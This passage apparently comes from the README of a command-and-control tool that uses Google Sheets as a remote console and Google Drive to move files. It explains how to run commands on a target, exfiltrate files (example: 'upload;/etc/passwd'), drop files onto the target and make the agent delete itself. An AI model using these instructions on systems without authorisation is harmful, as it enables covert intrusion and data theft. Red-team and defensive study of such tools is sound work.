 - Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

### Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in column `A`, and the output will be printed in the column `B`. 

### Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```none
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

### Download file

Special commands are reserved to perform the upload and download to the target machine

 ```none
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case, the symlink is deleted.

## Workflow

<p align="center">
  <img alt="Work Flow" src="img/GC2-workflow.png" height="60%" width="60%">
</p>

## Demo

[Demo](https://youtu.be/n2dFlSaBBKo)

[Demo](https://youtu.be/pLfuZnLcR1o) by [Grant Collins](https://www.youtube.com/@collinsinfosec)

## Disclaimer

